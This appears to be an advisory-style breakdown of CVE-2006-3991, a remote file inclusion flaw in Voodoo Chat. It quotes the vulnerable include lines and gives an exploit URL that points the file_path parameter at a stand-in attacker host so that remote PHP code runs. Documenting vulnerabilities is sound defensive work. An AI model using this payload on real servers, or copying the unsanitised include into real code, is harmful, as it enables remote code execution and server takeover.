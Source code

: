Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-3991

**Vulnerability Details:**

*   **Root Cause:** The vulnerability is a Remote File Inclusion (RFI) flaw in the `index.php` file of Voodoo Chat version 1.0RC1b. The application includes files based on user-supplied input without proper sanitization. Specifically, the `file_path` parameter is directly used in an `include` statement.
*   **Weaknesses:** The primary weakness is the lack of input validation on the `file_path` parameter, allowing an attacker to control the path of the file being included. This enables the inclusion of remote files.
*   **Impact of Exploitation:** Successful exploitation allows a remote attacker to include arbitrary files, including malicious code from a remote server. This can lead to complete compromise of the server, such as arbitrary code execution.
*   **Attack Vectors:** The attack vector is through an HTTP GET request to the vulnerable `index.php` script. The attacker crafts a malicious URL, passing the URL of a malicious PHP file as the value of the `file_path` parameter.
*   **Required Attacker Capabilities/Position:** The attacker needs to be able to send HTTP requests to the vulnerable server. No prior authentication is required.

**Technical Details:**

*   The vulnerable code snippet is found in `index.php`:
    ```php
    else include_once($file_path."languages/".$language.".php");
    include($file_path."designes/".$design."/index.php");
    ```
*   The attacker can control the `$file_path` variable through the `file_path` parameter in the GET request.

**Exploit Example:**

```
http://sitename.com/[Script Path]/index.php?file_path=http://SHELLURL.COM?
```
This URL, when provided to the vulnerable application, would include the PHP file located at `http://SHELLURL.COM` into the execution context, potentially executing malicious code provided by the attacker.

**Additional Notes:**
* The exploit is identified with the EDB-ID: 2102
* The vulnerability is located in `index.php`.
* The application is identified as "Voodoo chat 1.0RC1b."
* The exploit was discovered and published on 2006-08-01 by SHiKaA.
* The vulnerability type is Remote File Inclusion (RFI).

The content provides more detail than the official CVE description, outlining the specific vulnerability location, vulnerable parameters, and the exploit vector.